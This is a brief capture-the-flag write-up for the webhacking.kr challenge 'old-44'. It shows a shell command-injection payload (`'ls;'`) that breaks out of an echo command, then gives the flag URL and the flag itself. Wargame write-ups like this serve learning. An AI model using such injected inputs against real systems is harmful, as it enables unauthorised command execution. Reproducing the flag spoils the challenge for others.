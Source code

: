 ```yaml
---
layout: default
title: old-44
---
```


# Webhacking old-44 Solution

here, you need to insert this payload: `'ls;'`

becuase the command that will be executed is this:
`echo 'hello! 'ls;''`
then, when you access it:
`http://webhacking.kr:10005/flag_29cbb98dafb4e471117fec409148e9386753569e`


**Flag:** ***`FLAG{y2u.be/sW3RT0tF020}`*** 

